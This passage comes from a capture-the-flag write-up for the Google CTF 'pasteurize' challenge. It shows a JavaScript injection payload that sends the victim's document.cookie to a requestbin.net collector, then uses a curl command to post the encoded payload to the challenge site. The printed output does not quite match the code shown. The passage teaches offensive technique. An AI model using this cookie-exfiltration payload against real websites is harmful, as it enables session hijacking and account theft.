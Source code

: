 If everything worked you will see a cookies `querystring`, mine says `foo=bar` because I manually set a cookie for testing.

Now lets encode our cookie exfil payload!

```javascript
const payload = qs.stringify({content: [";fetch('https://requestbin.net/r/"+REQUESTBIN_ID+"?x=' + encodeURIComponent(document.cookie), { mode: 'no-cors'});//"]});

console.log(payload); // outputs: content%5B0%5D=%3Bfetch%28%27https%3A%2F%2Frequestbin.net%2Fr%2Ftest%3Fcookies%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%2C%20%7B%20mode%3A%20%27no-cors%27%7D%29%3B%2F%2F
```

Time to POST it!

```bash
curl -X POST 'http://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw content%5B0%5D=%3Bfetch%28%27https%3A%2F%2Frequestbin.net%2Fr%2Ftest%3Fcookies%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%2C%20%7B%20mode%3A%20%27no-cors%27%7D%29%3B%2F%2F
```

We visit the address returned by cURL and we click the `share with TJMike🎤` button and cross our fingers!

Shortly after we check our request bin and...

![](./images/requestbin-cookie-exfil.png)
